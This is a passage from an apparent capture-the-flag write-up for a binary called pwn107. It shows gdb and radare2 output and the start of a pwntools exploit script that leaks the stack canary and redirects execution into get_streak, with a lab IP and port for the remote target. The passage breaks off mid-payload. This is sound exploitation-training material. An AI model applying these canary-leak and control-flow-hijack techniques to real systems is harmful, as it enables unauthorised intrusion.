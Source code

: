 `gdb`

```text
► 0x735744250973 <do_system+115>    movaps xmmword ptr [rsp], xmm1                   <[0x7ffe7e5235f8] not aligned to 16 bytes>
```

This is solved by diverting control to the statement immediately following the prologue of the *get_streak* function.

`radare2`

```text
[0x0000094c]> pdf
┌ 70: sym.get_streak ();
│ afv: vars(1:sp[0x10..0x10])
│           0x0000094c      55             push rbp
│           0x0000094d      4889e5         mov rbp, rsp
│           0x00000950      4883ec10       sub rsp, 0x10
│           0x00000954      64488b0425..   mov rax, qword fs:[0x28]
│           0x0000095d      488945f8       mov qword [canary], rax
│           0x00000961      31c0           xor eax, eax                 <=== here

```

Below is the `exploit` script built for *debugging* and local and remote exploitation.

#### script

```python
#!/usr/bin/env python3
from pwn import context, ELF, process, gdb, remote, flat, info, success

exe = './pwn107'
elf = context.binary = ELF(exe, checksec=False)
#context.log_level = 'debug'

gdbinit='''
init-pwndbg
set stop-on-solib-events 1
# after the printf
breakrva 0x00000a3b
# after the read
breakrva 0x00000a6e
continue
'''

REMOTE, PORT='10.10.218.76', 9007

io=process([exe])
#io=gdb.debug([exe], gdbscript=gdbinit)
#io=remote(REMOTE, PORT)

# Stack offsets
canary_offset = 13
vaddr_offset = 17 

# Program offsets
main_paddr = 0x992
get_streak_paddr = 0x961 # Instruction next to the prolog

#### Stage 1: Leak the memory ####

success("#### Stage 1: Leak The Memory ####\n")

separator='.'
payload=flat([
```